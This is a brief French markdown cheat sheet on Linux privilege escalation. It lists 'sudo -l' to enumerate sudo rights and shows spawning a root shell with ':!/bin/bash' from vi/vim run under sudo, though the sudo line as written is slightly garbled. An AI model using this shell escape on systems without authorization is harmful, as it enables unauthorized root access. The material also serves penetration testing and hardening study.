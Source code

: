 # Escalation de privilège

**Afficher les commandes exécutables en sudo**
```
sudo -l
```

**Escalation de privilège depuis vi/vim**
```
sudo /file/file.conf
:!/bin/bash
```